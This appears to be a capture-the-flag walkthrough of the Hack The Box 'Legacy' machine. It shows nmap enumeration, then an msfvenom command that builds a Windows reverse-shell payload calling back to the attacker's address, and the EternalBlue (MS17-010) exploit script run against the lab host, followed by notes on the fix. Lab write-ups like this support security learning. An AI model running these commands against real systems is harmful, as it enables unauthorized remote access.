 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Thu Jul  7 18:51:17 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/7%OT=135%CT=1%CU=40757%PV=Y%DS=2%DC=T%G=Y%TM=62C763A
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=
OS:0)OPS(O1=M539NW0NNT00NNS%O2=M539NW0NNT00NNS%O3=M539NW0NNT00%O4=M539NW0NN
OS:T00NNS%O5=M539NW0NNT00NNS%O6=M539NNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4
OS:=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M539NW0NNS%CC=N%Q=)T1(R
OS:=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=80%W=0%S=Z%A=S%F=AR%O=%
OS:RD=0%Q=)T3(R=Y%DF=Y%T=80%W=FAF0%S=O%A=S+%F=AS%O=M539NW0NNT00NNS%RD=0%Q=)
OS:T4(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=80%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=B0%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:60:72 (VMware)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-07-13T03:49:51+03:00

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   73.78 ms 10.10.14.1
2   73.83 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  7 18:52:21 2022 -- 1 IP address (1 host up) scanned in 64.24 seconds
```
**Smb vulnerabilities scan:** [nmap -sS -p139,445 10.10.10.4 -v --script vuln]:

![smb_scan](images/smb_vuln_scan_legacy.png)

**Initial Shell Vulnerability Exploited: EternalBlue**\
With the results of the nmap vulnerabilities scan, it seems like the machine is vulnerable to [MS017-10](https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py) (EternalBlue Exploit).

I first used msfvenom to generate a payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443
EXITFUNC=thread -f exe -a x86 --platform windows -o reverseshell.exe
```
And then ran the exploit:
```bash
python send_and_execute.py 10.10.10.4 revshell.exe
```

**Vulnerability Explanation:**\
The EternalBlue exploit works by taking advantage of SMBv1 vulnerabilities present in older versions of
Microsoft operating systems.\
The exploit makes use of the way Microsoft Windows handles, or rather mishandles, specially crafted
packets from malicious attackers. All the attacker needs to do is send a maliciously-crafted packet to the
target server, and the malware propagates and a cyberattack ensues.\
**Vulnerability Fix:**\
Microsoft has released a set of patches for Windows Vista, 2008, 7, 2008 R2, 2012, 8.1, RT 8.1, 2012 R2,
10, and 2016. Microsoft has also released emergency patches for Windows operating systems that are no
longer supported, including Windows XP, 2003, and 8.\
In this scenario, the machine uses Windows XP, and for unsupported Windows operating systems, e.g.
Windows XP, Microsoft recommends that users discontinue the use of SMBv1.\

**Initial Shell Screenshot:**\
<img src="images/legacy_initialshell.png" alt="initial_shell_poc" width="800" height="200"/>
